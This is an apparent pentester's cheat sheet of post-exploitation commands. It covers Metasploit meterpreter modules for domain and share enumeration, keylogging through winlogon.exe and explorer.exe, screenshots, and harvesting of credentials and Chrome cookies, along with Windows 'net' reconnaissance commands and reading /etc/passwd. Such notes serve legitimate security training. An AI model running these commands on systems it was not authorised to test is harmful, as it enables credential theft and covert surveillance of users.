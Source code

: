 # Gather info
## Metasploit
* `meterpreter> run post/windows/gather`
* `meterpreter> run post/linux/gather`
* `meterpreter> run enum_domains`
* `meterpreter> run post/windows/gather/enum_ad_users`
* `meterpreter> run enum_shares`
* `meterpreter> run enum_applications`

## Windows
* `net view /domain`
* `net group "<domain-name>" /domain` - get list of domain controllers
* `net users`
* `net localgroup`
* `net localhroup <group-name>`
* `net share`

## Linux
* `cat /etc/passwd`

## Cool resources
* Windows
    * https://docs.google.com/document/d/1U10isynOpQtrIK6ChuReu-K1WHTJm4fgG3joiuz43rw/edit?hl=en_US
    * https://tim3warri0r.blogspot.com/
* Linux
    * https://docs.google.com/document/d/1ObQB6hmVvRPCgPTRZM5NMH034VDM-1N-EWPRz2770K4/edit?hl=en_US
    * https://book.hacktricks.xyz/linux-hardening/linux-post-exploitation
* OSX        - https://docs.google.com/document/d/10AUm_zUdAQGgoHNo_eS0SO1K-24VVYnulUD2x3rJD3k/edit?hl=en_US
* Metasploit - https://docs.google.com/document/d/1ZrDJMQkrp_YbU_9Ni9wMNF2m3nIPEA_kekqqqA2Ywto/edit?pref=2&pli=1


# Gather data
## Metasploit
* `meterpreter> run scraper`
* `meterpreter> run winenum`
* `meterpreter> screenshot`
* keylogging
   * screen unlock          -> attach process to __winlogon.exe__
   * application keystrokes -> attach processes to __explorer.exe__
   * `meterpreter> keyscan_start` - start sniffer
   1. `meterpreter> keyscan_dump` - print keystrikes on screen
   2. `meterpreter> keyscan_stop` - stop sniffer
  </br>or</br>
   * `meterpreter> keylogrecorder` - start sniffer
 * `meterpreter> run post/windows/gather/credentials` - double tab to see all modules
 * `meterpreter> run post/windows/gather/enum_chrome` - chrome data: cookies, credentials, history
 * `meterpreter> run post/windows/gather/credentials/credential_collector`
 * `meterpreter> run post/multi/gather` - double tab to see all modules

## Other tools
* SessionGopher

## Cool resources
* https://wiki.zacheller.dev/pentest/post-exploitation/file-transfers


